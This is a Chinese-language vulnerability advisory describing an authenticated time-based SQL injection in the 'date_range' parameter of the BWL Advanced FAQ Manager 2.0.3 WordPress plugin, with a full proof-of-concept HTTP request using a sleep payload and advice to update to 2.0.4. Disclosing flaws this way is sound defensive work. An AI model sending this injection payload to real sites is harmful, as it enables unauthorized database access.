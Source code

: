 ## 描述



该漏洞存在于 BWL Advanced FAQ Manager 插件的“bwl-advanced-faq-analytics”页面中使用的“date_range”参数中。经过身份验证的攻击者可以通过操纵此参数的输入在数据库中执行任意 SQL 命令。

## 受影响的组件

- **插件：**BWL 高级常见问题管理器
- **版本：** 2.0.3
- **受影响的参数：**“date_range”
- **受影响的页面：**/wp-admin/edit.php

## 概念验证

手动利用

```yaml
GET /wp-admin/edit.php?page=bwl-advanced-faq-analytics&post_type=bwl_advanced_faq&filter_type=views&date_range=(select*from(select(sleep(20)))a)&faq_id=all HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-admin/edit.php?post_type=bwl_advanced_faq&page=bwl-advanced-faq-analytics
Connection: close
Cookie: [Relevant Cookies]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

如果服务器响应延迟了大约 20 秒，则表示成功利用了基于时间的 SQL 注入，从而确认了漏洞。

## 建议



建议 BWL Advanced FAQ Manager v2.0.3 用户将插件更新到修复版本 v2.0.4。